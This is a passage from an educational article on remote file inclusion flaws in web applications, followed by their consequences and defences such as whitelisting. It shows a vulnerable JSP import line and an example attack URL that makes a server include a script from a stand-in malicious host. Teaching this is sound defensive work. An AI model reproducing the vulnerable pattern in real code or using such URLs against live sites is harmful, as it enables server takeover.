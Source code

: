 `http://examplesite.com/home.jsp?file=http://normalsite.com/test.js

The website uses an import directive to include the remote file URL specified by the "file" parameter as follows.

`<c:import url="<%=request.getParameter('file')%>">`

Now if an attacker specifies the "file" parameter that contains the link to the malicious script hosted on a remote server as follows:

`http://examplesite.com/home.jsp?test=http://malicious-site.com/malicious_script.js`

Thus due to insufficient input validation, the malicious file malicious_script.js gets included and executed on the target web server.

## Consequences of File inclusion Vulnerabilities:

The consequences of file inclusion vulnerabilities vary depending on the type of attack being carried out. Some of the repercussions of the exploitation of these vulnerabilities are as follows:

* Reading, accessing or modifying different files on the web server
* Unauthorized disclosure of sensitive information such as credentials stored in the back-end of the website, system files or application code 
* Installation and execution of malware such as web shells, backdoors, viruses, etc. on the web server
* Execution of malicious scripts on the client side leading to Cross Site Scripting attacks
* Complete compromise and take over of the web server
* Denial of Service attacks 

## How to protect against file inclusion vulnerabilities:

It is critical to implement multiple security techniques in tandem to protect against the exploitation of file inclusion vulnerabilities. Input validation measures alone are insufficient, and all user input cannot be entirely sanitized. As a result, several countermeasures must be used to construct an effective defense system. This section discusses some of the approaches that can be used to protect against file inclusion vulnerabilities.

* The most effective solution for removing file inclusion vulnerabilities is to prevent users from passing input into the file systems and framework API. However, if this is not possible then consider the implementation of the following security techniques to prevent the exploitation of these vulnerabilities.

* There should be proper validation and sanitization of user-supplied input. The user input in a web application should never be trusted and sufficient security controls must be present on the client as well as server side to properly filter user input. The user inputs that should be properly protected are: HTTP POST/GET parameters, URL parameters, Cookie values, and HTTP header values. The inputs to the web application should mainly accept letters and digits whereas all unnecessary special characters should not be allowed.

* Implement a whitelist of characters allowed for the purpose of sanitization of user-supplied input instead of a blacklist. Implementation of a blacklist to reject user input is a weaker defense mechanism as a clever attacker can easily bypass such controls by providing input in different formats such as encoding the input or use hexadecimal format.

* The web application should have a specific whitelist of file names or specific directories that are allowed to be included in a web application. According to the [OWASP](https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.2-Testing_for_Remote_File_Inclusion) testing guide for file inclusion vulnerabilities, all the accepted file names should have a corresponding identifier to access those files on the web server. Any request containing an invalid identifier can then simply be rejected. The implementation of such a mechanism will avoid directory traversal attacks. 
